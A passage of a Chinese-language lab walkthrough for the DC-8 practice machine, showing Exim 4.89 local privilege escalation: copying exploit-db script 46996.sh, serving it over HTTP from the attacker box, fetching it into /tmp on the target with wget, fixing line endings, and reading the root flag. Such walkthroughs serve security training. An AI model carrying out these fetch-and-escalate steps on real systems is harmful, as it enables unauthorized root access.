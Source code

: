 查看对应版本，发现是 4.89，在 exim 4.87 - 4.91 的版本都存在本地提权漏洞

/usr/sbin/exim4 --version

![30](https://havocykp.github.io/assets/images/img_blog10/30.png)

将提权脚本复制到 攻击机目录下，开启HTTP服务

![31](https://havocykp.github.io/assets/images/img_blog10/31.png)

在当前路径开启 python.server，供DC-8下载（python3与python2有区别）

```javascript
┌─[pendo@pendo]─[~]
└──╼ $cp /usr/share/exploitdb/exploits/linux/local/46996.sh /home/pendo
┌─[✗]─[pendo@pendo]─[~]
└──╼ $python3 -m http.server 9999
```

![32](https://havocykp.github.io/assets/images/img_blog10/32.png)

在目标机上下载脚本

使用 ls -la 查看目录的权限，发现 /tmp 目录有写入的权限

![33](https://havocykp.github.io/assets/images/img_blog10/33.png)

切换路径到 /tmp目录下

wget <http://192.168.2.110:9999/46996.sh>

![34](https://havocykp.github.io/assets/images/img_blog10/34.png)

![35](https://havocykp.github.io/assets/images/img_blog10/35.png)

根据报错的内容进一步了解后发现

执行脚本的时候提示 “/bin/bash^M: bad interpreter: No such file or directory” 的错误是由于脚本文件是 dos 格式，即每一行结尾以 \r\n 来标识，而 unix 格式的文件结尾以 \n 来标识

查看脚本文件是dos格式还是unix格式的几种办法

![36](https://havocykp.github.io/assets/images/img_blog10/36.png)

解决方法：

![37](https://havocykp.github.io/assets/images/img_blog10/37.png)

![38](https://havocykp.github.io/assets/images/img_blog10/38.png)

转换格式后，运行脚本发现还不能成功提权

sed -i "s/\r//" 46996.sh

![39](https://havocykp.github.io/assets/images/img_blog10/39.png)

查看脚本内容，发现有两种执行方式

![40](https://havocykp.github.io/assets/images/img_blog10/40.png)

![41](https://havocykp.github.io/assets/images/img_blog10/41.png)

在 root 目录下找到 flag.txt

![42](https://havocykp.github.io/assets/images/img_blog10/42.png)

